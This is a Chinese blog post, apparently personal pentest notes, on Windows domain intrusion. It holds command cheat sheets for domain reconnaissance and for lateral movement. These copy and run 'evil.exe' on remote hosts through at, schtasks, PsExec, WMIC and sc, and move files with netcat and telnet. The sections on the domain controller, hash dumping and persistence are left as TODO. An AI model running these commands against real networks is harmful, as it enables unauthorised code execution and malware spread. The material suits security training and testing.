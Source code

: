 ```yaml
---
layout:     post
title:      "内网安全之域渗透"
subtitle:   "内网姿势系列  # 多坑待填"
date:       2017-06-09 21:19 +0800
author:     "gsfish"
header-img: "img/post-bg-hacker.jpg"
tags:
    - 内网安全
    - 渗透
---
```



内网姿势系列：

* [内网安全之 ARP 欺骗](/2016/06/23/lan-attack-cookie-hijack/)


# 0x00 整体思路（持续更新）

![01.png](/img/domain-pentest-note/01.png)

# 0x01 环境判断（DOMAIN / WORKGROUP）

```
net time /domain
net config workstation
systeminfo
ipconfig /all
```

# 0x02 信息收集

```
net view /domain<:DOMAIN>
net user /domain
net group /domain
net accounts /domain
nslookup
dsquery
```

# 0x03 域内

## 域内运行命令

一、计划任务

1) AT

```
copy evil.exe \\<HOST>\c$\windows\temp\evil.exe  # 上传恶意文件
at \\<HOST> 15:00 c:\windows\temp\evil.exe
```

2) SCHTASKS

```
schtasks /create /tn boom /tr c:\windows\temp\evil.exe /sc once /st 00:00 /s <HOST> /ru system
schtasks /run /tn boom /s <HOST>
schtasks /delete /tn boom /f /s <HOST>  # 清除任务
```

二、PsExec

1) 建立 IPC$ 连接后

```
psexec \\<HOST> -c evil.exe
```

2) 在 PsExec 的参数中指定账号密码

```
psexec.exe \\<HOST> –accepteula -u <USERNAME> -p <PASSWORD> -c evil.exe
```

三、WMIC 远程运行命令

```
copy evil.exe \\<HOST>\c$\windows\temp\evil.exe
wmic /node:<HOST> /user:administrator /p <PASSWORD> process call create c:\windows\temp\evil.exe
```

四、SC 创建服务执行

1) 系统权限（其中 `boom` 为服务名）

```
sc \\<HOST> create boom binpath= c:\evil.exe
sc \\<HOST> start boom
sc \\<HOST> delete boom
```

2) 指定用户权限启动

```
sc \\<HOST> create boom binpath=c:\evil.exe obj=<DOMAIN>\administrator passwrod=<PASSWORD>
sc \\<HOST> start boom
```

## 域内的文件操作

一、利用 IPC$

```
net use \\<HOST>\IPC$
copy evil.exe \\<HOST>\c$\
```

二、利用 Telnet

服务端：

```
nc -lvp 23 < nc.exe
```

下载端：

```
telnet <HOST> -f c:\nc.exe
```

三、利用文件共享

```
net use x: \\<HOST>\<SHARE> <PASSWORD> /user:<DOMAIN>\<USERNAME>
```


# 0x04 拿下域控

// TODO


# 0x05 Hash dump

// TODO


# 0x06 权限维持

// TODO


# 参考文献

1. [域渗透基础简单信息收集（基础篇）[EB/OL]. https://xianzhi.aliyun.com/forum/read/805.html](https://xianzhi.aliyun.com/forum/read/805.html)
2. [Tomato. windows内网渗透杂谈[EB/OL]. https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html](https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html)
